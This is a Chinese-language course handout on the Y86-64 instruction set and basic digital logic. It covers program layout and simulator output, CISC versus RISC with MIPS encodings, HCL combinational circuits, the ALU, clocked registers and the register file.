一个完整的 Y86-64 程序还需要自己安排内存（课件 p.51–53）。程序从地址 0 开始执行，所以开头的 init 部分要先设置栈指针，再调用主程序，最后用 halt 结束；数据用 .align 8 对齐后用 .quad 逐个给出初值；栈的位置用 .pos 0x100 指定，并且要保证栈向下增长时不会覆盖代码和数据。汇编器 yas 支持符号标号，例如 irmovq Stack, %rsp 中的 Stack 会被替换为标号的地址 0x100。按照 x86-64 的调用约定，main 把数组地址放进 %rdi 再调用 len（课件 p.53 的文字写的是“Push array address as argument”，但代码实际是用 %rdi 传参，并没有压栈）。这些规则背后的道理、参数与寄存器的约定以及几种典型的错误，在 9.17 节的专题中展开。
0x000: 30f40001000000000000 | irmovq stack, %rsp
0x00a: 804000000000000000 | call main
0x013: 00 | halt
0x018: | .align 8
0x018: | array:
0x018: 0d000d000d000d00 | .quad 0x000d000d000d000d
... | ...（共 4 个非零元素）
0x038: 0000000000000000 | .quad 0
0x040: 30f71800000000000000 | main: irmovq array, %rdi
0x04a: 805400000000000000 | call len
0x053: 90 | ret
0x054: 30f80100000000000000 | len: irmovq $1, %r8
... | ...（与课件 p.54 完全相同）
0x0a0: 90 | ret
0x100: | .pos 0x100
0x100: | stack:汇编器生成的 .yo 文件看起来就像反汇编输出（课件 p.54）：每行左侧是地址和该行生成的机器码，右侧是源代码。几个地址值得核对一下：call main 位于 0x00a，长 9 字节，所以压入的返回地址是 0x013，也就是 halt 的地址；init 部分结束于 0x013，.align 8 把数组推到 0x018；数组 5 个元素占 40 字节，到 0x03f 为止，main 从 0x040 开始；main 中的 call len 位于 0x04a，返回地址是 0x053。
Stopped in 33 steps at PC = 0x13. Status 'HLT', CC Z=1 S=0 O=0
Changes to registers:
%rax: 0x0000000000000000 0x0000000000000004
%rsp: 0x0000000000000000 0x0000000000000100
%rdi: 0x0000000000000000 0x0000000000000038
%r8: 0x0000000000000000 0x0000000000000001
%r9: 0x0000000000000000 0x0000000000000008
Changes to memory:
0x00f0: 0x0000000000000000 0x0000000000000053
0x00f8: 0x0000000000000000 0x0000000000000013指令集模拟器 yis 逐条执行指令，最后只报告与初始状态相比发生了变化的寄存器和内存字。这份输出的每一项都可以解释清楚。33 步的来历是：init 中的 irmovq 和 call 共 2 步，main 中的 irmovq 和 call 共 2 步，len 在循环之前执行 6 条，循环体 5 条指令执行 4 次共 20 步，len 的 ret 1 步，main 的 ret 1 步，最后的 halt 1 步，合计 2 + 2 + 6 + 20 + 1 + 1 + 1 = 33。停机时 PC = 0x13，正是 halt 所在的地址。%rax = 4 是数组长度；%rdi = 0x38 指向结尾的 0；条件码 Z=1 是最后一次 andq 测试到 0 的结果。内存中 0xf8 处的 0x13 和 0xf0 处的 0x53 是两次 call 压入的返回地址（图 5）：ret 弹出它们时只是移动了 %rsp，并不会把内存清零，所以它们作为“变化”留在了最终状态中。用本讲义的模拟器运行同一个程序，得到的列表与输出与课件逐字节相同。
图 5 len 程序的内存布局与运行结束时栈中留下的两个返回地址
答案
教材补充：怎样在自己的电脑上运行 yas 和 yis
CS:APP 3e 的学生网站提供 Y86-64 工具包 sim.tar。解压后在 sim 目录下修改 Makefile，把 GUIMODE、TKLIBS、TKINC 三行注释掉（不需要图形界面），然后执行 make（需要事先安装 gcc、flex 和 bison）。之后在 sim/misc 目录下，./yas len.ys 生成 len.yo，./yis len.yo 运行并打印状态变化。sim/y86-code 目录中有教材中的示例程序，可以直接用来练习。第 10、11 讲还会用到同一个工具包中的 ssim（顺序实现）和 psim（流水线实现）。
为什么要把 x86-64 程序“转译”成 Y86-64#
课件 p.22 问“怎样写 Y86-64 代码”，给出的路线是先让编译器生成 x86-64 汇编，再逐条改写。这个练习不只是为了交作业，它在几个层面上都有实际意义。第一，它逼着我们看清一条 CISC 指令到底做了几件事。 x86-64 的一条 addq %rax, 12(%rbx,%rcx,8) 看上去只是“加法”，实际上包含地址计算（一次乘 8、两次加法）、一次内存读、一次加法和一次内存写。Y86-64 没有比例变址，算术指令也不能访问内存，只能把这些步骤一条一条写出来（下面的代码框）。改写后的 8 条指令中，前 5 条只算地址，真正的加法只有 1 条。在 x86-64 机器上用内联汇编执行原指令，再按这 8 条指令的语义手工计算，两者对内存的修改相同；最后一条 addq 设置的 ZF、SF、OF 也与原指令相同，因为它们都由同一次加法 M + rax 产生（前面几条 addq 也会设置条件码，但被最后一条覆盖了；x86-64 的 CF 在 Y86-64 中没有对应）。
# x86-64：一条指令
addq %rax, 12(%rbx,%rcx,8) # M[rbx+8*rcx+12] += rax
# Y86-64：拆成 8 条
rrmovq %rcx, %r8 # r8 = rcx
addq %r8, %r8 # r8 = 2*rcx
addq %r8, %r8 # r8 = 4*rcx
addq %r8, %r8 # r8 = 8*rcx
addq %rbx, %r8 # r8 = rbx + 8*rcx（地址计算）
mrmovq 12(%r8), %r9 # 读内存
addq %rax, %r9 # 运算，并设置条件码
rmmovq %r9, 12(%r8) # 写回内存第二，这正是现代 x86-64 处理器内部在做的事。 今天的 x86-64 处理器在译码时会把复杂指令拆成若干条简单的“微操作”（micro-operation，μop），例如上面的指令会被拆成“算地址并读内存”“加法”“算地址并写内存”几个微操作，后端的执行部件只处理这些类似 RISC 的简单操作。把 x86-64 改写成 Y86-64，相当于用手做了一遍译码器的工作；第 10、11 讲设计的 SEQ 和流水线处理器，执行的也正是这种“每条指令只做一类简单事情”的指令。第三，同样的工作在工业界每天都在发生。 编译器为一种新的指令集编写后端，就是决定怎样用目标机器有限的指令和寻址方式表达源程序；二进制翻译器（例如苹果的 Rosetta 2 把 x86-64 程序翻译成 ARM64 程序、QEMU 在一种处理器上运行另一种处理器的程序）做的也是“把一种 ISA 的指令序列改写成另一种 ISA”，它们同样要处理寻址方式不同、条件码不同、寄存器数目不同等问题。第四，它是后续实验的准备。 Arch Lab 的第一部分要求用 Y86-64 手写几个小函数，最直接的办法就是先写出 C 代码，参照编译器的输出逐条改写，并像本节的 len 一样用 yas、yis 验证。
9.7 CISC 与 RISC（课件 p.56–61）#
课件最后比较了两种指令集设计哲学。复杂指令集计算机（CISC，以 IA32/x86 为代表）的思路是：为常见的编程任务提供功能强大的指令。它的指令可以直接访问内存，例如 addq %rax, 12(%rbx,%rcx,8) 一条指令就要完成复杂的地址计算、一次内存读和一次内存写；它依赖栈来传参数和保存返回地址，有显式的 push 和 pop；算术和逻辑指令执行时会顺带设置条件码。精简指令集计算机（RISC，由 IBM 的内部项目开始，由 Stanford 的 Hennessy 和 Berkeley 的 Patterson 推广）的思路则相反：指令少而简单，完成同一任务可能要多条指令，但每条指令都能用小而快的硬件实现。RISC 通常有更多的寄存器（典型为 32 个），用寄存器传参数和返回地址；只有 load 和 store 指令能访问内存；没有条件码，比较指令把 0 或 1 写入寄存器，分支指令直接比较两个寄存器（例如 MIPS 的 beq $3,$2,dest）。
课件 p.58–59 以 MIPS 为例展示了典型的 RISC 指令集。MIPS 有 32 个通用寄存器，除了 $0 恒为 0 以外，硬件并不区分它们的用途，表 6 中的分工完全是软件约定，作用相当于 x86-64 的调用约定（第 6 讲）。与 x86-64 对照可以看到 RISC 的两个特点：参数寄存器、保存寄存器都更多；返回地址放在寄存器 $ra 中，而不是压在栈上——一个不再调用其他函数的叶子过程完全不必访问栈。
表 6 MIPS 寄存器的使用约定（课件 p.58）与 x86-64 的对应
| 编号 | 名称 | 用途 | x86-64 中的对应 |
|---|---|---|---|
$0 | $zero | 恒为 0 | —（x86-64 没有恒零寄存器） |
$1 | $at | 汇编器保留的临时寄存器 | — |
$2–$3 | $v0–$v1 | 返回值 | %rax（%rdx） |
$4–$7 | $a0–$a3 | 前 4 个参数 | %rdi、%rsi、%rdx、%rcx（共 6 个） |
$8–$15、$24–$25 | $t0–$t9 | 调用者保存的临时寄存器，被调用过程可以改写 | %r10、%r11 等 |
$16–$23、$30 | $s0–$s8 | 被调用者保存的寄存器，过程返回前必须恢复 | %rbx、%rbp、%r12–%r15 |
$26–$27 | $k0–$k1 | 留给操作系统（异常处理） | — |
$28 | $gp | 全局指针，指向全局数据区 | —（用 PC 相对寻址代替） |
$29 | $sp | 栈指针 | %rsp |
$31 | $ra | 返回地址（jal 指令自动写入） | —（call 把返回地址压栈） |
MIPS 的每条指令都是 32 位定长，只有三种格式：R 型（寄存器—寄存器）依次是 6 位操作码、三个 5 位寄存器号、5 位移位量和 6 位功能码；I 型（带 16 位立即数）依次是操作码、两个寄存器号和 16 位立即数，访存和条件分支都用这种格式；J 型（跳转）是 6 位操作码加 26 位地址。表 7 列出了课件 p.59 的指令及其编码。以 lw $3,16($2) 为例，操作码 0x23、基址 rs = 2、目的 rt = 3、偏移 16，拼成 0x8c430010。可以注意三点：算术指令总是三个寄存器操作数（目的寄存器单独给出，不像 x86-64 和 Y86-64 那样把结果写回一个源操作数）；访问内存只有 lw、sw 这类 load/store 指令，寻址方式只有“基址 + 偏移”；条件分支 beq 直接比较两个寄存器，不经过条件码。课件写的 addu $3,$2,3145 是汇编器允许的简写，实际生成的机器指令是带立即数的 addiu。表中的编码由 python 按 MIPS 指令格式拼装得到。
表 7 MIPS 指令示例（课件 p.59）
| 指令 | 格式 | 含义 | 编码（十六进制） |
|---|---|---|---|
addu $3,$2,$1 | R 型 | $3 = $2 + $1 | 00411821 |
addu $3,$2,3145 | I 型 | $3 = $2 + 3145（机器指令为 addiu） | 24430c49 |
sll $3,$2,2 | R 型 | $3 = $2 << 2 | 00021880 |
lw $3,16($2) | I 型 | $3 = M[$2 + 16]（load） | 8c430010 |
sw $3,16($2) | I 型 | M[$2 + 16] = $3（store） | ac430010 |
beq $3,$2,dest | I 型 | $3 == $2 时跳转到 dest | 1062＋16 位偏移 |
表 8 CISC、RISC 与 Y86-64 的对比（课件 p.56–61）
| 特征 | CISC（x86-64） | RISC（MIPS 等） | Y86-64 |
|---|---|---|---|
| 指令数与编码 | 指令多，变长编码（1～15 字节） | 指令少，定长编码（通常 4 字节） | 指令少，变长编码（1～10 字节），但长度由首字节决定 |
| 访存方式 | 算术指令可直接读写内存，寻址方式复杂 | 只有 load/store 访问内存 | 只有 mrmovq/rmmovq 访问内存（类似 RISC） |
| 寻址方式 | D(Rb,Ri,S) 等多种 | 通常只有“基址 + 偏移” | 只有 D(rB)（类似 RISC） |
| 条件码 | 有，算术指令顺带设置 | 没有，比较结果写入寄存器 | 有 ZF/SF/OF（类似 CISC） |
| 过程调用 | 栈传返回地址，push/pop | 寄存器传返回地址（MIPS 的 $ra） | call 压栈、push/pop（类似 CISC） |
| 寄存器数 | 16 个 | 典型 32 个 | 15 个 |
关于“哪种更好”的争论（课件 p.60），当年双方立场鲜明：CISC 的支持者认为对编译器更友好、代码字节更少；RISC 的支持者认为便于编译器优化，而且可以用简单的芯片设计跑得很快。今天的结论是：对桌面和服务器处理器来说，ISA 的选择已经不是技术问题，只要硬件足够多，几乎什么指令集都能跑得很快，代码兼容性才是更重要的因素；x86-64 本身也吸收了许多 RISC 的特点，例如寄存器增加到 16 个并用寄存器传参数。对嵌入式处理器而言，RISC 更合适，因为它更小、更便宜、更省电，绝大多数手机使用的都是 ARM 处理器。Y86-64 则介于两者之间（课件 p.61）：它像 RISC 一样只用 load/store 式的指令访存、寻址简单，又像 CISC 一样有条件码、变长编码和基于栈的过程调用。
9.8 Y86-64 的设计取舍：为什么这样设计，为什么够用#
读完 9.3–9.7 节，自然会有两个问题：Y86-64 为什么要设计成这个样子？它删掉了 x86-64 那么多东西，还能用来学习处理器吗？回答这两个问题的线索是本讲后半部分和第 10、11 讲的目标：用一套能讲清楚的硬件把指令集实现出来。Y86-64 的每一项简化，几乎都对应着硬件实现中可以省掉的一块复杂电路（表 9）。
表 9 Y86-64 的主要设计取舍
| 方面 | Y86-64 的做法 | 这样做的好处 | 付出的代价 |
|---|---|---|---|
| 寄存器 | 15 个，编号 0xF 表示“无寄存器” | 4 位编号正好放进半个字节；0xF 让“这条指令不读/不写寄存器”有统一的编码，硬件不必为每种指令单独判断 | 比 x86-64 少一个寄存器 |
| 编码格式 | 首字节决定长度；字段位置固定；常数一律 8 字节 | 取指时读出第 0 字节就知道指令多长、各字段在哪里，取指和译码电路很简单 | 代码比 x86-64 长，例如 irmovq 总是 10 字节 |
| 寻址方式 | 只有 D(rB) | 地址只需要一次加法，执行阶段一个 ALU 就能算出 | 数组访问要自己用加法算出元素地址 |
| 算术运算 | 只有 addq、subq、andq、xorq，寄存器对寄存器 | 一条指令至多一次 ALU 运算，ALU 只需四种功能 | 没有乘除和移位；常数要先 irmovq 装入寄存器 |
| 访存与运算分离 | 只有 mrmovq、rmmovq（以及 push、pop、call、ret）访问内存 | 每条指令至多访问一次数据存储器，第 10 讲能把所有指令装进同一个六阶段框架 | 指令条数增多（9.6 节的例子 1 条变 8 条） |
| 条件码与条件 | ZF、SF、OF；cmovXX 与 jXX 共用 6 种条件 | 足以表达全部有符号比较；条件只需一个信号 Cnd 统一处理 | 没有 CF，不能直接做无符号比较 |
| 过程调用 | call/ret 用栈，push/pop 与 x86-64 相同 | 可以与 x86-64 的调用约定一一对应地翻译程序 | 每次调用都要访问内存 |
| 异常 | Stat 只有四种取值，出错即停机 | 不需要设计异常处理的复杂机制，又保留了“发现错误、停止执行”的接口 | 不能像真实处理器那样转交操作系统处理 |
先看这样设计的原因。把表 9 的好处一栏连起来读，可以发现它们都服务于同一个目标：让每条指令的执行过程都能拆成相同的几个步骤，而每个步骤只需要一个固定的硬件部件。读第 0 字节就能确定长度，取指就简单；地址只有 D(rB) 一种形式，执行阶段一个 ALU 就够；每条指令至多访存一次，访存阶段一个数据存储器端口就够；条件统一成 Cnd 一个信号，条件传送和条件跳转共用一套逻辑。第 10 讲会看到，正是这些约束使 SEQ 的全部控制逻辑能用几页 HCL 写完。相比之下，x86-64 的一条指令长度可以是 1～15 字节，一条指令可以既读又写内存，还要处理前缀、多种立即数宽度和段寄存器等历史包袱，真实的 x86-64 译码器是处理器中最复杂的部件之一。
再看它为什么够用。判断一个指令集“够不够用”，要看它能否表达程序需要的全部基本操作：在寄存器和内存之间传送数据、做算术和逻辑运算、按条件改变执行顺序、调用和返回过程、在出错时停下来。Y86-64 每一类都有：四种传送指令、四种运算、条件传送和条件跳转、call/ret 与栈、Stat 状态码。缺少的功能都可以用已有的指令组合出来，例如乘法可以用循环累加或移位相加实现，比较大小可以用 subq 加条件跳转实现，代价只是程序更长、更慢。因此，前八讲中用 gcc -Og 编译的 C 程序（只使用整数运算）都可以逐条改写成 Y86-64，研讨题 1（5）和作业 4.47 就是这样做的。更重要的是，处理器设计中的核心问题在 Y86-64 上一个也不少：流水线中的数据相关（寄存器读写、popq 后紧接着使用）、控制相关（条件跳转、ret）、异常（非法指令、非法地址）都完整地出现，这正是第 11 讲流水线 PIPE 要解决的问题。去掉的只是那些不改变原理、却会让电路成倍复杂的部分。当需要时，指令集也很容易扩展：作业 4.51 给 SEQ 增加带立即数的加法 iaddq，只需改动几行 HCL。
★ Part A 要点
ISA 规定处理器状态、指令及其编码、每条指令对状态的影响；程序员看到的是顺序执行，硬件可以并行实现。
Y86-64 状态：15 个寄存器（无 %r15，0xF 表示“无寄存器”）、ZF/SF/OF 三个条件码（无 CF）、PC、Stat、小端字节内存。
编码规则是：第 0 字节 = icode:ifun；第 1 字节 = rA:rB；常数一律 8 字节小端。长度只由首字节决定：halt/nop/ret 1 字节，rrmovq/cmovXX/OPq/pushq/popq 2 字节，jXX/call 9 字节，irmovq/rmmovq/mrmovq 10 字节。
rrmovq = cmovXX 的 fn 0，jmp = jXX 的 fn 0；cmov 与 jXX 的条件编号相同（1 le、2 l、3 e、4 ne、5 ge、6 g）。
jXX/call 存放绝对地址；算术只能寄存器对寄存器；没有 cmpq/testq，常用 subq、andq 代替；常数要先用 irmovq 装入寄存器。
状态码 AOK=1、HLT=2、ADR=3、INS=4；halt 编码为 0x00，跑进全 0 内存会立即停机。
9.9 逻辑设计概述与数字信号（课件 p.26–27、p.37–38、p.62）#
要造出一台处理器，硬件必须完成三件基本的事（课件 p.62）：通信，把值从一个地方送到另一个地方；计算，对值做运算；存储，把值保存下来供以后使用。数字电路把一切都表示成 0 和 1：通信靠导线上的高电压或低电压，计算靠实现布尔函数的逻辑门，存储靠能保持一位信息的存储元件。
导线上的电压其实是连续变化的，数字信号的做法是用阈值把它离散化（课件 p.26，图 6）：高于某个阈值的电压范围表示 1，低于另一个阈值的范围表示 0，两者之间留出一段保护区。这样即使电压受噪声干扰或元件质量不高而略有偏移，只要不越过保护区，读出的值仍然正确，电路因此可以做得简单、小巧而快速。
图 6 用电压范围表示 0 和 1：带噪声的模拟信号仍能读出正确的 0、1、0（课件 p.26）
逻辑门是数字电路的基本计算单元（课件 p.27、p.37）：与门（AND）、或门（OR）、非门（NOT）的输出分别是输入的 &&、||、! 运算结果。门是持续工作的，输入一变，输出就跟着变，但会有一小段延迟，输出从 0 变 1 的延迟称为上升延迟，从 1 变 0 的称为下降延迟。图 7 是课件 p.27、p.37 时序图的完整版本，除了课件给出的 a && b，还画出了研讨题 2（1）要求的 a || b。可以看到，与门只有在两个输入都为 1 的那段时间（3～6）之后输出 1，而或门只要有一个输入为 1 就输出 1，所以它的输出从 b 上升（时刻 1）稍后开始，一直持续到 a 下降（时刻 9）稍后结束。
图 7 逻辑门的时序：a && b 与 a || b（每个门有一小段传播延迟）
三种基本门的符号见图 8，它们的功能可以用真值表完整地描述（表 10）。真值表列出输入的全部组合以及每种组合下的输出，n 个输入共有 行。后面的每个组合电路，都可以先列出真值表，再写成 HCL 表达式；反过来，给出 HCL 表达式，也可以逐行求值得到真值表来检验它是否正确。
图 8 与门、或门、非门的符号（课件 p.27）
表 10 三种基本门的真值表
| a | b | 与：a && b | 或：a || b | 非：!a |
|---|---|---|---|---|
| 0 | 0 | 0 | 0 | 1 |
| 0 | 1 | 0 | 1 | 1 |
| 1 | 0 | 0 | 1 | 0 |
| 1 | 1 | 1 | 1 | 0 |
把很多逻辑门连成网络就得到组合电路（课件 p.38）。教材给出了构成组合电路的三条规则：每个逻辑门的输入必须连到系统输入、存储单元的输出或某个逻辑门的输出之一；两个或多个逻辑门的输出不能连在一起，否则它们可能把导线驱动到相反的电压；网络中不能有环路，否则电路的输出可能不确定或振荡。满足这些规则的电路就像一个“函数”：经过一段延迟后，主要输出成为主要输入的布尔函数，并且持续响应输入的变化。2026 版课件 p.38 把 2025 版标题中的“Acyclic”（无环）删掉了，只写“由逻辑门组成的网络”，但无环这条规则并没有取消：一旦有环，输出就可能反过来影响自己的输入，电路不再是输入的函数，后面讲的存储元件正是故意利用环路来“记住”数值的（9.16 节）。
9.10 位级组合电路与 HCL（课件 p.28、p.30、p.44–45）#
第一个例子是判断两个位是否相等的电路（课件 p.28、p.44，图 9）。它由两个非门、两个与门和一个或门组成：上面的与门 G3 在 a、b 都为 1 时输出 1，下面的与门 G4 接收 !a 和 !b，在 a、b 都为 0 时输出 1，或门把两种情况合并起来。用硬件控制语言 HCL 写出来是
bool eq = (a && b) || (!a && !b);HCL 的布尔运算符与 C 语言的逻辑运算符写法相同，但含义有一个本质区别：C 的表达式是按顺序求值一次（&& 和 || 还会短路），而 HCL 表达式描述的是一个电路，它没有“求值”这一动作，只要输入变化，输出就在一段延迟之后跟着变化，所有部分始终在同时工作。研讨题 2（2）按 a、b 的四种组合列出了图中每个门的输入和输出。
图 9 位相等电路（课件 p.28、p.44）；G1～G5 为讲解用的门编号
把四种输入逐行代入，可以得到位相等电路的真值表（表 11）：只有 a、b 相同时输出 1。真值表中输出为 1 的两行正好对应表达式中被“或”起来的两项：a = b = 1 一行对应 a && b，a = b = 0 一行对应 !a && !b。这也是从真值表写出 HCL 表达式的通用方法：把每个输出为 1 的行写成一个“与”项，再把这些项“或”起来。
表 11 位相等电路的真值表
| a | b | eq | 说明 |
|---|---|---|---|
| 0 | 0 | 1 | !a && !b 成立（G4 输出 1） |
| 0 | 1 | 0 | 两个与门都输出 0 |
| 1 | 0 | 0 | 两个与门都输出 0 |
| 1 | 1 | 1 | a && b 成立（G3 输出 1） |
第二个例子是位级多路复用器 MUX（课件 p.30、p.45，图 10）。它有一个控制信号 s 和两个数据信号 a、b，s = 1 时输出 a，s = 0 时输出 b。实现方式同样是“两个与门加一个或门”：与门 G2 让 a 在 s = 1 时通过，与门 G3 让 b 在 !s = 1（即 s = 0）时通过，任何时刻两个与门中至多一个可能输出 1，或门把它送到输出端。HCL 表达式为
bool out = (s && a) || (!s && b);图 10 位级多路复用器（课件 p.30、p.45）
MUX 有三个输入，真值表共 8 行（表 12）。前四行 s = 0，输出一列与 b 一列完全相同，a 怎样变化都不影响结果；后四行 s = 1，输出与 a 相同。这就是“选择”的含义：控制信号决定哪一个数据输入能够传到输出端。
表 12 位级多路复用器的真值表
| s | a | b | out | 输出等于 |
|---|---|---|---|---|
| 0 | 0 | 0 | 0 | b |
| 0 | 0 | 1 | 1 | b |
| 0 | 1 | 0 | 0 | b |
| 0 | 1 | 1 | 1 | b |
| 1 | 0 | 0 | 0 | a |
| 1 | 0 | 1 | 0 | a |
| 1 | 1 | 0 | 1 | a |
| 1 | 1 | 1 | 1 | a |
9.11 字级组合电路与 case 表达式（课件 p.29、p.31、p.46–48）#
处理器操作的是 64 位的字，字级电路由 64 个位级电路并排构成（图 11）。字级相等判断（课件 p.29、p.46）用 64 个位相等电路分别比较对应的位，再用一个 64 输入的与门把结果合起来，全部相等时输出 1。在 HCL 中直接写成 bool Eq = (A == B);，结果是一个布尔值。字级多路复用器（课件 p.31、p.47）由 64 个位级 MUX 组成，同一个控制信号 s 同时送到每一位。HCL 用 case 表达式描述它：
int Out = [
s : A;
1 : B;
];图 11 字级相等电路与字级多路复用器的内部结构（课件 p.29、p.31、p.46–47）
case 表达式由若干“测试 : 值”对组成，硬件的行为是：从上到下依次检查测试条件，输出第一个成立的条件所对应的值。最后一项通常写成 1 : 默认值，保证总有一项匹配。由于是按顺序选择，后面的条件可以默认前面的条件都不成立，从而写得更简单。课件 p.48 的四路选择器就利用了这一点：
int Out4 = [
!s1 && !s0 : D0; # s1s0 = 00
!s1 : D1; # 走到这里说明不是 00，又 s1 = 0，所以是 01
!s0 : D2; # 不是 00、01，又 s0 = 0，所以是 10
1 : D3; # 只剩 11
];第二项只写 !s1，是因为能走到第二项，说明第一项不成立，即 s1、s0 不同时为 0；再加上 s1 = 0，就只能是 01。枚举四种输入可以验证（表 13）：00、01、10、11 分别选中 D0、D1、D2、D3。课件 p.48 的另一个例子是求三个字的最小值 Min3，但课件中的写法在有相等值时会出错。
表 13 Out4 的 case 表达式在四种输入下的检查过程（“—”表示前面已有条件成立，不再检查）
| s1 | s0 | !s1 && !s0 | !s1 | !s0 | 1 | 输出 |
|---|---|---|---|---|---|---|
| 0 | 0 | 1（选中） | — | — | — | D0 |
| 0 | 1 | 0 | 1（选中） | — | — | D1 |
| 1 | 0 | 0 | 0 | 1（选中） | — | D2 |
| 1 | 1 | 0 | 0 | 0 | 1（选中） | D3 |
⚠ 课件 p.48 的 Min3 在有相等值时结果错误
课件写的是 A < B && A < C : A; B < A && B < C : B; 1 : C;，用的是严格小于。当 A = B 且都小于 C 时（例如 A = B = 0、C = 1），前两项都不成立，结果落到默认项输出 C = 1，而正确的最小值是 0。枚举 0～2 的全部 27 种组合，课件写法有 3 种出错，都是这种情况。
教材 4.2.3 节的正确写法是 A <= B && A <= C : A; B <= A && B <= C : B; 1 : C;，改用小于等于后 27 种组合全部正确。教材练习题 4.11 还指出第二项可以简化为 B <= C：能走到第二项说明 A 不是最小值，此时只需比较 B 和 C。
表 14 Min3 两种写法的对比（课件用 <，教材用 <=；枚举 0～2 的 27 种组合，课件写法出错的正是表中 3 行）
| A | B | C | 课件写法 | 教材写法 | 最小值 | 说明 |
|---|---|---|---|---|---|---|
| 0 | 1 | 2 | 0 | 0 | 0 | 一致 |
| 2 | 1 | 0 | 0 | 0 | 0 | 一致 |
| 1 | 1 | 1 | 1 | 1 | 1 | 一致（全相等时落到默认项，恰好正确） |
| 0 | 0 | 1 | 1 | 0 | 0 | 课件写法出错 |
| 0 | 0 | 2 | 2 | 0 | 0 | 课件写法出错 |
| 1 | 1 | 2 | 2 | 1 | 1 | 课件写法出错 |
| 0 | 1 | 0 | 0 | 0 | 0 | 一致（A = C 时第一项不成立，但默认项 C 恰好是最小值） |
常见问题：HCL 中字级信号的类型到底写 int 还是 word？
课件 p.31、p.47–48 和 p.42 写的是 int，这是教材第 2 版的写法；教材第 3 版把字级类型改名为 word（例如 word Min3 = [ ... ];），以免让人误以为它是 C 语言中 32 位的 int。两者含义相同：HCL 不规定字的宽度，同一套写法既可以描述 4 位的寄存器编号，也可以描述 64 位的数据字。考试和作业中两种写法都能看懂即可，本讲义的代码沿用课件的 int。
9.12 算术逻辑单元 ALU（课件 p.32）#
ALU 是一个组合电路，有两个数据输入和一个控制输入（课件 p.32）。课件画了四个 ALU，分别对应 Y86-64 的四种运算：控制信号为 0、1、2、3 时，输出分别是 X + Y、X − Y、X & Y、X ^ Y。注意图中 Y 接在上方的 A 端、X 接在下方的 B 端，减法算的是 X − Y，即 B − A，这正好对应 subq rA, rB 计算 rB − rA 的语义：执行 subq 时把 valA 接到 A 端、valB 接到 B 端即可。ALU 在计算结果的同时还产生设置条件码所需的 ZF、SF、OF。作为组合电路，它持续响应输入的变化，什么时候把结果和条件码“存下来”，由后面介绍的时钟寄存器决定。图 12 是以 X & Y 为例的内部结构示意，研讨题 2（5）会逐个说明其中用到了哪些前面介绍过的部件。
图 12 ALU 的内部结构示意（以 andq 为例，红色为结果实际经过的路径）
表 15 汇总了 ALU 的四种功能，并以 X = 3、Y = 5 为例给出结果和条件码。减法的结果是 3 − 5 = −2，最高位为 1，所以 SF = 1。OF 只对加减法有意义：例如 X = （TMax）、Y = 1 时做加法，结果变成 0x8000000000000000（TMin），SF = 1、OF = 1；X = TMin、Y = 1 时做减法，结果变成 TMax，OF = 1。与、异或不会溢出，OF 总是 0。这些值都用程序按 64 位补码计算核对过。
表 15 ALU 的功能与条件码（X 接 B 端、Y 接 A 端；例：X = 3，Y = 5）
| 控制 | 输出 | 对应指令 | 例：输出 | ZF | SF | OF |
|---|---|---|---|---|---|---|
| 0 | X + Y | addq | 8 | 0 | 0 | 0 |
| 1 | X − Y | subq | −2 | 0 | 1 | 0 |
| 2 | X & Y | andq | 1 | 0 | 0 | 0 |
| 3 | X ^ Y | xorq | 6 | 0 | 0 | 0 |
9.13 存储：时钟寄存器与状态机（课件 p.33、p.39、p.41）#
组合电路只会“算”，不会“记”。要保存信息，需要时钟控制的存储元件。课件 p.33 的寄存器由一组边沿触发的锁存器（每位一个）组成，它们共用一个时钟信号，在时钟的上升沿装入输入。要注意术语：这里说的“寄存器”是硬件寄存器，指电路中任何一个由时钟控制的存储字，和汇编程序中 %rax 那样的程序寄存器不是一回事；程序寄存器集中放在寄存器文件中（9.14 节）。
寄存器的行为可以概括为“大部分时间是一道屏障，上升沿时开一次门”（课件 p.39，图 13）。在两个上升沿之间，寄存器的状态和输出保持不变，输入端即使已经出现了新值 y，输出仍是旧值 x；时钟上升的那一刻，寄存器把输入 y 装入，输出随之变为 y，并一直保持到下一个上升沿。正是这种行为把电路划分成一个个时钟周期：组合逻辑在一个周期内根据寄存器的输出算出新值，下一个上升沿再把新值存进寄存器。
图 13 寄存器只在时钟上升沿装入输入（课件 p.39）
课件 p.41 用一个累加器说明这种“组合逻辑 + 寄存器”的状态机（图 14）。ALU 把输入 In 与寄存器的输出 Out 相加，MUX 在控制信号 Load 的选择下决定送哪个值到寄存器：Load = 1 时选 In（重新装入），Load = 0 时选 In + Out（累加）。每个时钟上升沿，寄存器装入 MUX 的输出。于是 Out 依次为 x0、x0+x1、x0+x1+x2，在 Load 再次为 1 的周期重新从 x3 开始，然后是 x3+x4、x3+x4+x5，与课件的时序图一致。研讨题 2（6）给出了逐周期的详细表格。
图 14 累加器状态机（课件 p.41）
图 15 把课件 p.41 的时序图画成了带具体数值的形式（取 x0～x5 = 3、5、7、11、13、17）。读图时要注意“周期内”和“上升沿之后”的区别：在第 k 个周期中，MUX 的输出由本周期的 Load、In 和寄存器当前的 Out 算出，只是一个组合逻辑的结果；直到第 k 个周期结束时的上升沿，它才被装入寄存器，成为下一个周期的 Out。所以 Out 的每个值都比 MUX 输出晚一个周期出现，例如第 2 个周期 MUX 输出 x0 + x1 = 8，第 3 个周期 Out 才变为 8。第 4 个周期 Load = 1，MUX 改选 In = x3，累加重新开始。
图 15 累加器的逐周期时序（课件 p.41；红色虚线为时钟上升沿）
9.14 随机访问存储器与寄存器文件（课件 p.34–35、p.40）#
随机访问存储器保存多个字，用地址选择读写哪一个（课件 p.34–35）。寄存器文件就是保存程序寄存器 %rax、%rsp 等的存储器，它用 4 位的寄存器编号作为地址，编号 0xF 表示不进行读或写。Y86-64 的寄存器文件有三个端口（图 16）：两个读端口 A、B，各有一个地址输入（srcA、srcB）和一个数据输出（valA、valB）；一个写端口 W，有地址输入 dstW 和数据输入 valW。多个端口使得一个周期内可以同时读两个寄存器、写一个寄存器，这正是执行 addq rA, rB 这类指令所需要的。2026 版新增的 p.35 强调数据存储器的端口结构与寄存器文件相同（“Memory is the same”）：读端口给出地址 addrA、addrB，经过延迟输出 valA、valB；写端口在时钟上升沿把 valW 写到地址 addrW。
图 16 寄存器文件的端口与读写特性（课件 p.34–35、p.40）
